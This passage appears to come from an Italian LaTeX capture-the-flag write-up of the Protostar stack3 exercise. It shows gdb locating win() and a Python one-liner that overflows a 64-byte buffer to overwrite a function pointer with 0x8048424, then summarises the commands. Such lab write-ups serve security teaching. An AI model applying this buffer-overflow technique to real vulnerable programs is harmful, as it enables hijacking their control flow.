 Per recuperare l'indirizzo della funzione win(), utilizziamo il debugger di GNU Linux, ossia \textbf{gdb}.
Avviamo gdb con stack3 tramite il comando:
\begin{lstlisting}[style=bashstyle]
    gdb -q /opt/protostar/bin/stack3
    # -q serve per non stampare a video info di copyright
\end{lstlisting}
Usiamo il comando \textcolor{red}{p} per stampare l'indirizzo di win():
\begin{lstlisting}[style=bashstyle]
    $gdb -q /opt/protostar/bin/stack3 
    Reading symbols from /opt/protostar/bin/stack3...done
    (gdb) p win 
    $1 = {void (void)} 0x8048424 <win>
\end{lstlisting}
L'input richiesto può essere generato con Python, facendo attenzione all'ordine dei byte:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"'
\end{lstlisting} 
Mandiamo stack3 in esecuzione con l'input appena creato:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostar/bin/stack3 
\end{lstlisting}
Otteniamo il messaggio \textcolor{red}{calling function pointer, jumping to 0x8048424 code flow succesfully changed}.

Vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # avvio stack3 in gdb
    gdb -q /opt/protostar/bin/stack3
    # stampo indirizzo win
    p win
    # scrivo script python e mando in pipe a stack3
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostar/bin/stack3 
\end{lstlisting}
